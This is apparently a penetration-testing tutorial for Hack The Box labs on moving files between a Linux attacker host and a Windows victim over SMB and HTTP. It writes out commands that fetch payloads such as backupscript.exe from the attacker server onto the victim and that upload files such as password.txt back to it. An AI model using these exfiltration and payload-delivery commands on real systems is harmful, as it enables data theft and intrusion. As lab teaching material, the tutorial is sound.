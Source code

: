 1. In the previous article on File Transfer Techniques, we wrote about transferring files by converting it into base 64 and storing it in the clipboard.
2. However, this technique is not really suitable for large files.
3. Thus, in this post, I will be introducing two new techniques: Server Message Block (SMB) and Hypertext Transfer Protocol (HTTP)
4. As usual, I will assume that our attacker host is a Linux machine (`1.1.1.1`) while the other machine is a Windows machine (`2.2.2.2`).

# Server Message Block (SMB)
1. SMB is a Microsoft service/protocol. Thus, it will only work on Windows machines (usually). However, it is possible to use SMB on a Linux too.
2. The reason I introduce this technique is because it is very useful to exfiltrate information on Windows boxes in Hack The Box.
3. SMB works based on a server-and-client model.
4. To start an SMB server on our attacker host,
```sh
sudo impacket-smbserver myShare -smb2support ./smbShare -user test -password test
```
- `impacket-smbserver`: Impacket has provided us with an easy-to-use module for SMB server
- `myShare`: The name of the share that we will create
- `-smb2support`: Specifies that we will use SMB version 2. (SMB version 1 may be disabled by default on the Windows machine due to major security vulnerabilities, such as Eternal Blue)
- `./smbShare`: This is the directory that we will share with the clients
- `-user`: Specify username to access the share
- `-password`: Specify password to access the share

5. To mount the share on our victim host,
```cmd
net use n: \\1.1.1.1\myShare /u:test test
net use <drive-name>: \\<server-name>\<share-name> /u:<username> <password>
```
- `net use`: Command to mount a share
- Note that the drive name has to be an unused drive, so avoid the `C:` or `D:` drive.
## Linux <-> Windows
6. Now, if we copy a file into our `./smbShare` directory in our attacker host,
```sh
cp payload.txt ./smbShare
```
7. It will appear on the victim host's `n:\` drive.
```cmd
dir n:\
```
- I recommend copying the file to another folder we control because the network drive tends to be a bit slower.
8. The victim host can also copy files to share into this drive.
```cmd
copy password.txt n:\
```
- This file will be accessible in the attacker host
# Hypertext Transfer Protocol (HTTP)
1. I would usually use HTTP server when doing Linux boxes, but this technique should work for Windows boxes too. (HTTP works on a server-client model too)
2. To create a simple HTTP server on the attacker host, I like to use 
```sh
python3 -m uploadserver
```
- This will set a server at `<your-ip>:8000`
## Linux -> Windows
3. To pull a file from the attacker host into the victim host from the victim host,
```cmd
curl.exe http://1.1.1.1:8000/payload.txt
curl.exe http://<server-ip>:8000/payload.txt
```
- Also note that payload.txt must be in the same directory as the directory you set up your server (ie the directory you run `python3 -m uploadserver`)
- Note that `curl.exe` may not be available in some windows systems
4. An alternative will be to use Powershell `Invoke-WebRequest`
```powershell
Invoke-WebRequest -Uri "http://<server-ip>:<port>/backupscript.exe" -OutFile "C:\backupscript.exe"
```
## Windows -> Linux
5. You can also push a file from the victim host to the server (attacker host).
```cmd
curl -X POST http://1.1.1.1:8000/upload -F "files=@./password.txt"
curl -X POST http:/<server-ip>:8000/upload -F "files=@<path-to-file>"
```
